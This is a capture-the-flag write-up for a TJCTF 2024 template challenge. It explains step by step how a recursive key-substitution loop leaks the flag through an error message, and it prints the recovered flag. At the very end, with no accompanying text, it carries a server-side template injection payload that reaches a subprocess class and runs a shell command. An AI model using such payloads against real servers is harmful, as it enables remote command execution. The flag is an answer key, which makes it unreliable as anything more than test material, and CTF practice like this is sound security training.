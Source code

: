 The trick here is to play with the flag format _tjctf{.+}_ and the error when a template key is not found: _return f'Key {key} not found!', 500_. Since the algorithm is while true, it will check for all {{x}} instances, so using the curlybraces at the flag, we can trick the algorithm to look for the flag key in the **template_keys** dict this way:


- Insert the following key:value in the template_keys dict:

Key: f

Value: \{\{\{\{flag\}\}\}

- Use the following template:
\{\{f\}\}


- Initial state

s = "\{\{f\}\}"

- First iteration

s = "\{\{\{\{flag\}\}\}"

- Second iteration takeout {{flag}} for the real flag tjctf{.+}

s = "\{\{tjctf\{.+\}\}"

- Third iteration look for "tjctf{.+" in the template_keys dict, there is non, so return the error:

return f'Key \{tjctf\{.+\} not found!', 500

- We get the error:

"Key tjctf{t3mpl4t3r_1_h4rdly_kn0w_h3r_bf644616 not found!"



<p align="center">
  <img src="/images/writeups/TJCTF2024/3_0_add.png" width="65%"/>
</p>{{''.__class__.__mro__[1].__subclasses__()[336]('ls',shell=True,stdout=-1).communicate()[0].decode('utf-8')}}
